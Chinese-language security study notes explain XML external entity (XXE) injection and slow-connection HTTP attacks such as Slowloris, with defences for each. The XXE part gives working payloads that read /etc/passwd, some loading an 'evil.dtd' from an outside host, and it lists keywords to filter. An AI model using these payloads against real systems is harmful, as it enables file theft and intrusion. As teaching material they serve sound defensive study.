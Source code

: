 ### XXE是什么？攻击方法？危害？防御方法？
#### XXE是什么？
先了解，外部实体声明:<!ENTITY 实体名称 SYSTEM "URI">，示例如下：
```
<?xml version="1.0"?>
<!DOCTYPE test [
	<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
	<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
]>
<author>&writer;&copyright;</author>
```
xxe也就是xml外部实体注入。
#### XXE攻击方法
a. 直接通过DTD外部实体声明
```
<?xml version="1.0"?>
<!DOCTYPE a [
	<!ENTITY b SYSTEM "file:///etc/passwd">
]>
<c>&b;</c>
```
b. 通过DTD文档引入外部DTD文档，再引入外部实体声明

XML内容：
```
<?xml version="1.0"?>
<!DOCTYPE a SYSTEM "http://mark4z5.com/evil.dtd">
<c>&b;</c>
```
DTD文件内容：
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```
c. 通过DTD外部实体声明引入外部实体声明

XML内容：
```
<?xml version="1.0"?>
<!DOCTYPE a [
	<!ENTITY % d SYSTEM "http://mark4z5.com/evil.dtd">
	%d;
]>
<c>&b;</c>
```
DTD文件内容：
```
<!ENTITY b SYSTEM "file:///etc/passwd">
```
#### XXE危害
```
a. 任意文件读取
b. 执行系统命令
c. 探测内网端口
d. 攻击内网
```
#### XXE防御方法
```
a. 禁用外部实体声明
b. 过滤关键词（<!DOCTYPE，<!ENTITY，SYSTEM等）
```

### 慢连接攻击
	1) 原理：使服务器等待，让其在保持连接的情况下消耗资源
	2) 工具: [slowhttptest](https://github.com/shekyan/slowhttptest)
	3) 分类：
	  a) Slowloris(slow headers)
	    HTTP Request以\r\n\r\n（0d0a0d0a）结尾表示客户端发送结束，服务端开始处理。利用这个特性，一直不发送\r\n\r\n,服务端认为HTTP头部没有接收完成而一直等待。
	  b) Slow http post(slow body)
	    POST中设置content-length，提交头部后，慢速发送少量字节，使得服务器一直等待
	  c) Slow read attack
	    控制TCP的滑动窗口大小，使得服务器发送response时，需要拆分成很多个包发送，造成资源浪费。
	4) 防御：
	  a) 设置请求读取超时时间(RequestReadTimeout)
	  b) 设置keep-alive超时时间(KeepAliveTimeout)
	  c) 设置连接超时时间(Timeout)
	  P.S. Nginx能很好防御慢连接攻击


